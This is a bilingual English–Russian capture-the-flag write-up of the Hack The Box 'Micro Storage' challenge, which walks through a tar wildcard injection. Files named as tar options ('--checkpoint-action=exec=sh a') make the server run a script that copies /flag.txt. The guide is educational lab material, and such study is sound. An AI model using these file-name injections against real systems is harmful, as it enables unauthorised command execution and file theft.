

[English](#english) · [Русский](#русский)

---

## English

**Name -** Micro Storage
**Category -** Misc
**Difficulty -** Easy
**Link -** https://app.hackthebox.com/challenges/Micro%2520Storage

### Summary

The challenge presents a temporary file storage service. The description hints at a coding mistake. The key functionality here is "Compress and download all your files". In Linux environments, if a script uses a wildcard (like `tar -cf archive.tar *`) to select files, and the directory contains files named like command-line flags (e.g., `--checkpoint=1`), the tool interprets them as options rather than filenames. This is known as **Wildcard Injection**. We exploit this to execute arbitrary code and leak the flag.

---

### Recon (how I inspected the format)

I connected to the service and was greeted by a nice banner.
By the way, the "WARNING" blinks funnily, I'll remember that effect for myself, it's cool)))

The menu offers options to upload, list, delete, print content, and compress files.
I started by uploading a file named `pwn.sh`. My initial plan was to copy the flag to a new file named `flag_leaked`.

```
>>> Choose an option: 1
[*] Enter your file name: pwn.sh
[*] Start typing your file content: (send 'EOF' when done)
cp /flag.txt flag_leaked
EOF
[+] Your file "pwn.sh" has been saved. (25 bytes written)
```

Then I proceeded to prepare the **Tar Wildcard Injection**. I needed to create files that act as flags for the `tar` command.
First, the checkpoint trigger:

```
>>> Choose an option: 1
[*] Enter your file name: --checkpoint=1
[*] Start typing your file content: (send 'EOF' when done)
JOJO REFERENCE
EOF
[+] Your file "--checkpoint=1" has been saved. (15 bytes written)
```

Next, I tried to upload the action trigger, telling `tar` to execute `sh pwn.sh` when the checkpoint is reached.

```
>>> Choose an option: 1
[*] Enter your file name: --checkpoint-action=exec=sh pwn.sh
[-] File name is too long.
```

The filename length is restricted. I needed to shorten it.

---

### Strategy

1.  Create a file with a very short name (e.g., `a`) containing the malicious shell command (`cp /flag.txt pwn.sh`).
2.  Upload the `--checkpoint=1` file.
3.  Upload the `--checkpoint-action=exec=sh a` file (which fits the length limit).
4.  Select Option 5 ("Compress"). The server runs `tar *`. It picks up our files, treats the checkpoint filenames as arguments, executes `sh a`, which runs the command inside `a`.
5.  **Crucial Detail:** The server tracks uploaded files in a session list. If my script creates a *new* file (like `flag_leaked`), the server won't know it exists, and I won't be able to read it using Option 4.
6.  **Solution:** Overwrite an *existing* file that the server already knows about (like `pwn.sh`).

---

### Execution

I created the payload file `a`. At first, I tried copying to `flag_leaked` or `b`, but I couldn't read them later.

```
>>> Choose an option: 1
[*] Enter your file name: a
[*] Start typing your file content: (send 'EOF' when done)
cp /flag.txt
EOF
[+] Your file "a" has been saved. (13 bytes written)

>>> Choose an option: 1
[*] Enter your file name: --checkpoint-action=exec=sh a
[*] Start typing your file content: (send 'EOF' when done)
JOJO REFERENCE
EOF
[+] Your file "--checkpoint-action=exec=sh a" has been saved. (15 bytes written)
```

I triggered the compression (Option 5), which executes the exploit. Then I listed files.

```
>>> Choose an option: 2
[*] Fetching your uploaded files...
[*] 0. pwn.sh
[*] 1. --checkpoint=1
[*] 2. a
[*] 3. --checkpoint-action=exec=sh a
```

Since the server doesn't show files created by the script in the "List" menu (it stores the file list in memory/session), I realized I had to modify the payload to overwrite a known file.

I deleted `a` and re-uploaded it with the correct payload: **overwrite `pwn.sh` with the flag**.

```
>>> Choose an option: 3
[*] Enter the file identifier: (0 - 9)
>>> 3
[*] Deleting "a"...
[+] File deletion completed.

>>> Choose an option: 1
[*] Enter your file name: a
[*] Start typing your file content: (send 'EOF' when done)
cp /flag.txt pwn.sh
EOF
[+] Your file "a" has been saved. (20 bytes written)
```

Now `a` contains `cp /flag.txt pwn.sh`.
I ran the compression again (Option 5). The exploit triggered.

### Result and proofs

Finally, I read the content of `pwn.sh` (ID 0), which had been overwritten by the flag.

```
>>> Choose an option: 5
[+] Your base64 encoded archive:
... (base64 data) ...

>>> Choose an option: 4
[*] Enter the file identifier: (0 - 9)
>>> 0
HTB{**************************************************************************************Infinity is not a limit! P.S. This is not the flag itself, it's just very long}
```

Simply copying it into an existing file gave us the flag)



---

## Русский

[Перейти к английской версии](#english)

**Название -** Micro Storage
**Категория -** Misc
**Сложность -** Easy
**Ссылка -** https://app.hackthebox.com/challenges/Micro%2520Storage

---

## Краткое описание

Группа людей создала сервис для временного хранения файлов, но допустила ошибку в коде. Наша цель — слить содержимое `/flag.txt`. Ключевая фича здесь — "Compress and download all your files". В Linux, если скрипт использует wildcard (например, `tar -cf archive.tar *`), а в папке есть файлы с именами, похожими на флаги командной строки (например, `--checkpoint=1`), утилита воспринимает их как настройки, а не как файлы. Это называется **Tar Wildcard Injection**.

---

## Разведка (как я смотрел формат)

Подключаемся и видим баннер.
Кстати там забавно горит WARNING типа мигает запомню и себе забиру эффектик прикольный)))

Меню предлагает загружать, удалять и сжимать файлы. Я начал с загрузки файла `pwn.sh`. Изначальный план был скопировать флаг в новый файл `flag_leaked`.

```
>>> Choose an option: 1
[*] Enter your file name: pwn.sh
[*] Start typing your file content: (send 'EOF' when done)
cp /flag.txt flag_leaked
EOF
[+] Your file "pwn.sh" has been saved. (25 bytes written)
```

Далее я начал готовить инъекцию. Нужно создать файлы, которые `tar` воспримет как команды.
Сначала триггер чекпоинта:

```
>>> Choose an option: 1
[*] Enter your file name: --checkpoint=1
[*] Start typing your file content: (send 'EOF' when done)
JOJO REFERENCE
EOF
[+] Your file "--checkpoint=1" has been saved. (15 bytes written)
```

Затем я попытался загрузить команду действия (сказать `tar` выполнить скрипт при достижении чекпоинта):

```
>>> Choose an option: 1
[*] Enter your file name: --checkpoint-action=exec=sh pwn.sh
[-] File name is too long.
```

Имя файла оказалось слишком длинным. Нужно сокращать.

---

## Стратегия

1.  Создать файл с коротким именем (например, `a`), внутри которого будет нужная shell-команда.
2.  Загрузить файл `--checkpoint=1`.
3.  Загрузить файл `--checkpoint-action=exec=sh a` (теперь влезает в лимит).
4.  Выбрать опцию 5 ("Compress"). Сервер выполнит `tar *`, подхватит наши файлы-аргументы и выполнит `sh a`.
5.  **Важный момент:** Сервер хранит список загруженных файлов в сессии. Если мой скрипт создаст *новый* файл (например, `b`), сервер о нем не узнает, и я не смогу его прочитать через меню.
6.  **Решение:** Перезаписать *существующий* файл, о котором сервер уже знает (например, `pwn.sh`).

---

## Результат

Я удалил старый пэйлоад и загрузил новый файл `a` с командой перезаписи `pwn.sh`.

```
>>> Choose an option: 1
[*] Enter your file name: a
[*] Start typing your file content: (send 'EOF' when done)
cp /flag.txt pwn.sh
EOF
[+] Your file "a" has been saved. (20 bytes written)
```

Теперь `a` содержит `cp /flag.txt pwn.sh`.
Я снова запустил сжатие (Option 5). Эксплойт сработал.
Осталось прочитать содержимое `pwn.sh` (ID 0).

```
>>> Choose an option: 5
[+] Your base64 encoded archive:
... (данные) ...

>>> Choose an option: 4
[*] Enter the file identifier: (0 - 9)
>>> 0
HTB{**************************************************************************************бесконечность не предел! P.S это не сам флаг он очень длинный просто}
```

Просто копируя его в существующий файл мы получили флаг)


